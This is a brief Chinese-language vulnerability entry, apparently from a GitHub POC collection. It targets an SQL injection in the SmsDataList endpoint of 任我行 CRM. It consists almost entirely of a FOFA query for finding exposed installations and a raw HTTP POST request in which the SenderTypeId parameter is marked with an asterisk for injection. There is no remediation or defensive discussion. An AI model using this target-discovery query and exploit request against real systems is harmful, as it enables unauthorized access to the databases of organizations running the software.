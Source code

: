 ## 任我行 CRM SmsDataList SQL注入漏洞

## fofa

```javascript
app="任我行-CRM"
```

## poc

```javascript
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.1361.63 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 170

Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=00000000*
```
